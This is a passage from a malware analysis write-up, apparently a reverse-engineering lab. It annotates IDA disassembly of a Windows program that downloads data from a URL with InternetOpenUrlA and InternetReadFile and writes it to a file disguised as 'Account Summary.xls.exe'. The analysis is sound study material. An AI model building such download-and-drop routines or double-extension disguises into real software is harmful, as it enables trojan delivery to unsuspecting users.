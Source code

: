         .text:0040124F                 mov     edx, [ebp+Str]
        .text:00401255                 push    edx             ; lpszUrl
        .text:00401256                 mov     eax, [ebp+hInternet]
        .text:0040125C                 push    eax             ; hInternet
        .text:0040125D                 call    ds:InternetOpenUrlA
        .text:00401263                 mov     [ebp+hFile], eax
        .text:00401269                 jz      short loc_40126E
        ```

    * Use `InternetReadFile` to store the data in the file.
        ```assembly
        .text:0040126E loc_40126E:                             ; CODE XREF: _main+269↑j
        .text:0040126E                                         ; _main+26B↑j
        .text:0040126E                 lea     ecx, [ebp+dwNumberOfBytesRead]
        .text:00401274                 push    ecx             ; lpdwNumberOfBytesRead
        .text:00401275                 push    10000h          ; dwNumberOfBytesToRead
        .text:0040127A                 mov     edx, [ebp+lpBuffer]
        .text:00401280                 push    edx             ; lpBuffer
        .text:00401281                 mov     eax, [ebp+hFile]
        .text:00401287                 push    eax             ; hFile
        .text:00401288                 call    ds:InternetReadFile
        .text:0040128E                 test    eax, eax
        .text:00401290                 jz      short loc_401306
        ```
    * The file name store in `ecx` register. And `ecx`  is associated with `Filename` at **line <font color="FF0000">`.text:004012A0`</font>**. Therefore, we trace back to where it from at **line <font color="FF0000">`.text:0040121E`</font>**
        ```assembly
        .text:0040129B                 push    offset Mode     ; "wb"
        .text:004012A0                 mov     ecx, [ebp+Filename]
        .text:004012A6                 push    ecx             ; Filename
        .text:004012A7                 call    ds:fopen
        .text:004012AD                 add     esp, 8
        .text:004012B0                 mov     [ebp+File], eax
        .text:004012B6                 mov     edx, [ebp+File]
        .text:004012BC                 push    edx             ; File
        .text:004012BD                 push    1               ; Count
        .text:004012BF                 mov     eax, [ebp+dwNumberOfBytesRead]
        .text:004012C5                 push    eax             ; Size
        .text:004012C6                 mov     ecx, [ebp+lpBuffer]
        .text:004012CC                 push    ecx             ; Str
        .text:004012CD                 call    ds:fwrite
        .text:004012D3                 add     esp, 10h
        .text:004012D6                 mov     edx, [ebp+File]
        .text:004012DC                 push    edx             ; File
        .text:004012DD                 call    ds:fclose
        .text:004012E3                 add     esp, 4
        ```
        * Following the code below, `eax` register is the return value from function `account_summary`. Then, we can trace back to what function `account_summary` is.
        ```assembly
        .text:00401219                 call    account_summary
        .text:0040121E                 mov     [ebp+Filename], eax
        .text:00401224                 push    0A00000h        ; Size
        ```
        * The image below is the function `accout_summary`. By concatenating the whole characters → **<font color="FF0000">`Account Summary.xls.exe`</font>**. And this is the file name that we download the data from URL.
        ![](https://imgur.com/hzyFHpI.png)
